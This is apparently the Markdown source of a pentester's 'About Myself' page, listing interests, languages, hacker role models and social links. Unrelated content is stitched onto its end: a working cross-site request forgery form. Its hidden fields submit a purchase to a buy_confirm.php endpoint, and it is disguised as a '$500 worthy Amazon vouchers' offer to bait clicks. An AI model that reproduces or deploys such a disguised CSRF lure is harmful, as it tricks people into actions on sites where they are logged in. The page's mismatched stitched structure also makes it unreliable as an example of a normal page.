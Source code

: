 +++
title = "About"
date = "2019-01-31"
author = "m4xx"
cover = "abt.png"
description = "About Myself.!"
+++

# Hi there  🔗

My name is 👤[Deepak Mistry] (https://www.twitter.com/Deepak_maxx) and I'm the author of this website and also Certified Ethical Hacker also Pentester and also Coder and also .... 😅  🙄That's it.

Area Of Interest:

- **Red-Teaming.**🛑
- **System Hacking.**🖥
- Social Engineering.🧸
- **Web-app Pentesting.**🌐
- Reverse Engineering.🔄
- Malware analysis.🔍
- Vulnerability Assessment.📝
- **Penetration Testing.**😈

Languages:

- **Engilsh**
- **Hindi**
- **Marathi**
- **Gujarati**
- **Shell Scripting.**
- **PHP.**
- Python.
- **C#.Net**
- Java.
- js
- lol.!! :P

Damn That too much!! I'm basically not so called expert in all the Areas/Languages which I had mentioned above, But those which are marked **BOLD** I know very well, Now enough of my introduction damn it!!

🤔 But wait this is the "About me" page, I'm suppose to tell people about myself.!!

Okay let me tell you more about my self 😋.!
Well I'm 22yr old Penetration Tester, who has pursued  the degree of BSc in computer science. 
As I've mentioned all my interest and what i know befor except Arduino, Raspberry pie, and hardware hacking yeah I'm also so much interested in these topics too I've made CNC machine using Arduino my biggest inspirations for this field of cyberspace are

- *Sammy Kamkar*
- *Kevin Mitnick*
- *Aaron Swartz*
- *Gary McKinnon*.

🔥This Guys are super cool.!!, You should really read about them🔥.

I like to keep myself updated about latest technologies and stuff but trust me I'm not a nerd🤓.! 

That's it, That's lame😛.!

(Ｓｏｃｉａｌ　Ｍｅｄｉａ　Ｌｉｎｋｓ)

🔽 🔽 🔽 🔽 🔽 🔽 🔽 🔽 🔽 🔽  🔽 🔽 🔽 🔽 🔽 
### [(っ◔◡◔)っ ♥ Twitter ♥](https://www.twitter.com/Deepak_maxx)

### [(っ◔◡◔)っ ♥ Instagram ♥] (https://www.instagram.com/1_m4xx_0/)

# 𝐆𝐢𝐭𝐡𝐮𝐛
https://github.com/m4xx101

<html>
  <body>
    <form action="http://foophones.securitybrigade.com:8080/buy_confirm.php" method="POST">
      <input type="hidden" name="shipping" value="abc" />
      <h1>Click Here for $500 worthy Amazon vouchers.!!!</h1>
      <br/>
      <input type="hidden" name="price" value="29" />
      <input type="hidden" name="id" value="2" />
      <input type="submit" value="Amazon Vouchers" />
    </form>
  </body>
</html>
